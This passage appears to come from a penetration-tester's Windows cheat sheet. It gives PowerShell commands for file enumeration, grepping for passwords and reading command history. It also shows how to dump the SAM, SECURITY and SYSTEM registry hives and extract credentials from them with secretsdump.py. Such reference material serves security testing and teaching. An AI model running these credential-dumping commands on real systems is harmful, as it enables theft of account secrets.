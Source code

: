 <pre class="language-powershell" data-title="find"><code class="lang-powershell"><strong>Get-ChildItem -File -Recurse -ErrorAction SilentlyContinue
</strong># Or to get a nice tree view:
<strong>tree /F
</strong></code></pre>

<pre class="language-powershell" data-title="grep -ri $PATTERN"><code class="lang-powershell"><strong>dir -Recurse | Select-String -Pattern "password"
</strong></code></pre>

<pre class="language-powershell" data-title="Check permissions"><code class="lang-powershell"><strong>icacls C:\Path\To\DirOrFile
</strong># Output reference: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls#remarks
</code></pre>

{% code title="List disks (C:\, D:\, etc.)" %}
```powershell
wmic logicaldisk get deviceid,volumename,description
```
{% endcode %}

#### Stealing SAM / SYSTEM files

One interesting location to check is `C:\Windows\System32\config\`, where normally only administrators should be able to read contents. Permissions may be misconfigured or you may find the same files backed up in another readable place, but these should be interesting:

* `SAM` - stores _local_ cached credentials, known as SAM secrets
* `SECURITY` - stores _domain_ cached credentials, known as LSA secrets
* `SYSTEM` - contains information to decrypt both SAM and LSA secrets above

On a running system, you often cannot copy these files directly because they are in use. With backups, this is not the case, but on a running system you can use `reg`  to export them live:

{% code title="Export from live system" %}
```powershell
reg save HKLM\SAM "C:\Windows\Temp\SAM"
reg save HKLM\SECURITY "C:\Windows\Temp\SECURITY"
reg save HKLM\SYSTEM "C:\Windows\Temp\SYSTEM"
```
{% endcode %}

When these three files, either copied directly or exported, are copied to your local machine, it is time to extract credentials from them. Using [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) it is possible to parse the three files like so:

{% code title="Extract credentials" overflow="wrap" %}
```bash
secretsdump.py -sam 'SAM' -security 'SECURITY' -system 'SYSTEM' LOCAL
```
{% endcode %}

### Miscellaneous

<pre class="language-powershell" data-title="history" data-overflow="wrap"><code class="lang-powershell"><strong>Get-History
</strong># Raw method below can bypass Clear-History
<strong>type (Get-PSReadlineOption).HistorySavePath
</strong># Get verbose script block events (may be large)
<strong>Get-WinEvent -LogName 'Microsoft-Windows-PowerShell/Operational' -FilterXPath "*[System[EventID=4104]]" | Export-Csv -Path 'ScriptBlockEvents.csv' -NoTypeInformation
</strong></code></pre>
